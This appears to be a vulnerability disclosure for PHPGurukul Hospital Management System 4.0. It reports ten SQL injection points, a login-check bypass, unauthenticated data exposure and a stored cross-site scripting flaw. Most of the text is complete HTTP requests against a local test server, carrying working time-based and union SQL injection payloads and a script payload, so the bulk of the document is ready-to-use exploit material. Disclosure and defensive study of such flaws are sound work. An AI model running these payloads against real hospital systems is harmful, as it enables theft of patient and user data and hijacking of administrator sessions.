



###PHPGurukul Hospital Management System 4.0 Multiple Vulnerability

####General description：

Hospital Management System is web application for hospital which manages doctors and patients. In this project, we use PHP and MySQL database.
Website:https://phpgurukul.com/hospital-management-system-in-php/

**[1]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\user-login.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[2]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\forgot-password.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[3]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\registration.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[4]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\edit-profile.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[5]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\get_doctor.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[6]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\get_doctor.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[7]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\appointment-history.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[8]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\book-appointment.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[9]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\change-emaild.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[10]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\check_availability.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[11]PHPGurukul Hospital Management System in PHP v4.0 has a SQL injection vulnerability in ```\hms\admin\betweendates-detailsreports.php```. Remote unauthenticated users can exploit the vulnerability to obtain database sensitive information.**

**[12]PHPGurukul Hospital Management System in PHP v4.0 has a sensitive information disclosure vulnerability in multiple areas. Remote unauthenticated users can exploit the vulnerability to obtain user sensitive information.**

**[13]PHPGurukul Hospital Management System in PHP v4.0 has a Persistent Cross-Site Scripting vulnerability in ```\hms\admin\appointment-history.php```. Remote registered users can exploit the vulnerability to obtain user cookie data.**

_ _ _

**Environment: **
apache/php 7.0.12/PHPGurukul Hospital Management System 4.0


_ _ _

**[1]**

In \hms\user-login.php:


Line 7 gets the value of the POST variable username directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/user-login.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 137
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/user-login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

username=a' and 1=2 union select 1,2,if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),4,5,6,7,8,9#&password=asfsafafsafsaf&submit=1&submit=
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
```
username=a' and 1=2 union select 1,2,if(substring((select user() limit 0,1),1,1)='b',sleep(5),1),4,5,6,7,8,9#&password=asfsafafsafsaf&submit=1&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[2]**

In \hms\forgot-password.php:


Line 9 gets the values of the POST variables name and email directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/forgot-password.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 134
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/forgot-password.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

fullname=aaaa' and 1=2 union select if(substring((select user() limit 0,1),1,1)='r',sleep(5),1)#&email=1111%40qqqq.com&submit=&submit=
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
```
fullname=aaaa' and 1=2 union select if(substring((select user() limit 0,1),1,1)='b',sleep(5),1)#&email=1111%40qqqq.com&submit=&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[3]**

In\hms\registration.php:


Line 11 gets the values of the POST variables full_name, address, city, gender, and email directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/registration.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 185
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

full_name=aaa',if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),2,3,4,5)#&address=bbb&city=ccc&gender=female&email=1%402sq.com&password=a123123&password_again=a123123&submit=
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
```
full_name=aaa',if(substring((select user() limit 0,1),1,1)='b',sleep(5),1),2,3,4,5)#&address=bbb&city=ccc&gender=female&email=1%402sq.com&password=a123123&password_again=a123123&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[4]**

In \hms\edit-profile.php:


Line 6 uses the check_login function to verify that the user is logged in. In this function:


If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:


If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION[‘login’].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.


Back in \hms\edit-profile.php:


Line 14 gets the POST variables fname, address, city, and gender values directly into the database query and causes SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/edit-profile.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 170
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

fname=aaa'|if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),address='aaaaaaa',city='ccc',gender='female' where id=2#&address=bbb&city=ccc&gender=female&submit=
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
```
fname=aaa'|if(substring((select user() limit 0,1),1,1)='b',sleep(5),1),address='aaaaaaa',city='ccc',gender='female' where id=2#&address=bbb&city=ccc&gender=female&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[5]**

In \hms\get_doctor.php:


Line 6 gets the POST variable specilizationid value directly into the database query causing SQL injection.

You can get the current database user as root through the following SQL injection statement:
```
POST /hms/get_doctor.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 51
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

specilizationid=aaa' and 1=2 union select user(),2#
```
As shown in the figure, the current database user obtained through SQL injection is root:




**[6]**

In \hms\get_doctor.php:



Line 20 gets the POST variable specilizationid value directly into the database query causing SQL injection.

You can get the current database user as root through the following injection statement:
```
POST /hms/get_doctor.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 40
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

doctor=aaa' and 1=2 union select user()#
```
As shown in the figure, the current database user obtained through SQL injection is root:


**[7]**

In \hms\appointment-history.php:


Line 6 uses the check_login function to verify that the user is logged in. In this function:


If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:


If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back in \hms\appointment-history.php, line 9 gets the id value of the GET variable directly into the database query and causes SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
GET /hms/appointment-history.php?cancel=1&id=3'/**/and/**/if(substring((select/**/user()/**/limit/**/0,1),1,1)='r',sleep(5),1)%23  HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
```
GET /hms/appointment-history.php?cancel=1&id=3'/**/and/**/if(substring((select/**/user()/**/limit/**/0,1),1,1)='a',sleep(5),1)%23  HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[8]**

In \hms\book-appointment.php:


Line 6 uses the check_login function to verify that the user is logged in. In this function:


If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:


If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back inappointment-history.php,line 18 gets the POST variables Doctorspecialization, doctor, feet, appdate, and apptime values directly into the database query resulting in SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/book-appointment.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 159
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/book-appointment.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

Doctorspecialization=1',if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),3,4,5,6,7,8)#&doctor=2&appdate=2020-02-13&apptime=10%3A30+AM&submit=&fees=2
```
The first letter of the current database user(root) obtained through SQL injection is ‘r’, and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
```
Doctorspecialization=1',if(substring((select user() limit 0,1),1,1)='a',sleep(5),1),3,4,5,6,7,8)#&doctor=2&appdate=2020-02-13&apptime=10%3A30+AM&submit=&fees=2
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[9]**

In \hms\ change-emaild.php:



Line 6 uses the check_login function to verify that the user is logged in. In this function:


If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:


If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back inchange-emaild.php,line 10 gets the POST variable email value directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/change-emaild.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 97
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/change-emaild.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

email=1@2qaz.com'|if(substring((select user() limit 0,1),1,1)='r',sleep(5),1) where id=2#&submit=
```
The first letter of the current database user(root) obtained through SQL injection is ‘r’, and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
email=1@2qaz.com'|if(substring((select user() limit 0,1),1,1)='b',sleep(5),1) where id=2#&submit=
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[10]**

In \hms\ check_availability.php:


Line 6 gets the POST variable email value directly into the database query causing SQL injection.

The following SQL injection statement can be used to get the first letter of the current database user(root) as 'r':
```
POST /hms/check_availability.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 119
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/change-emaild.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

email=1@2qaz.com' and 1=2 union select case when substring((select user() limit 0,1),1,1)='r' then sleep(5) else 0 end#
```
The first letter of the current database user(root) obtained through SQL injection is ‘r’, and the query result is correct, so the request is delayed about 5 seconds:


If you query the following statement:
```
email=1@2qaz.com' and 1=2 union select case when substring((select user() limit 0,1),1,1)='a' then sleep(5) else 0 end#
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:


**[11]**

In \hms\admin\betweendates-detailsreports.php:


Line 6 uses the check_login function to verify that the user is logged in. In this function:


If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:


If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back in\hms\admin\betweendates-detailsreports.php:


Line 79 gets the POST variable fromdate, todate value directly into the database query causing SQL injection.

You can get the current database user as root through the following SQL injection statement:
```
POST /hms/admin/betweendates-detailsreports.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 71
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/change-emaild.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

fromdate=1' and 1=2 union select 1,2,user(),4,5,6,7,8,9,10,11#&todate=2
```
As shown in the figure, the current database user obtained through SQL injection is root:


**[12]**

In \hms\admin\appointment-history.php:


Line 6 uses the check_login function to verify that the user is logged in. In this function:


If $_SESSION['login'] is empty in line 4, the user is not logged in, and the user is redirected to the login page through line 9.

In \hms\user-login.php:


If the user enters the wrong username and password, line 26 assigns the username submitted by the user to $_SESSION['login'].

So as long as you first visit /hms/user-login.php and try to log in to an account, $_SESSION['login'] will not  be empty, you can bypass the check of the check_login function and achieve privilege elevation.

Back in\hms\admin\appointment-history.php:


Line 81 does not verify whether the current user has “admin” permission to directly output the query data, so the data can be obtained without authentication:


Similarly, you can view all user information without authorization. Visit /hms/admin/manage-users.php:


**[13]**

In \hms\admin\appointment-history.php:


After querying the data in line 81, the data is directly output in lines 88-97 without filtering to prevent xss attacks.

The data comes from \hms\book-appointment.php:


In summary, registered users can submit an appointment record with an XSS attack payload, and the vulnerability will be triggered when the administrator views the record.

After logging in the user account, submit the following request to save the appointment record:
```
POST /hms/book-appointment.php HTTP/1.1
Host: 127.0.0.1:8009
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8009
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.100 Safari/537.36
Sec-Fetch-Dest: document
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/book-appointment.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=qd2khmibk6ro2f92nl6k7bega0

Doctorspecialization=</td><script>alert("XSS");</script><td>&doctor=7&appdate=2020-02-13&apptime=10%3A30+AM&submit=&fees=2
```
This XSS is triggered when the administrator visits /hms/admin/appointment-history.php:


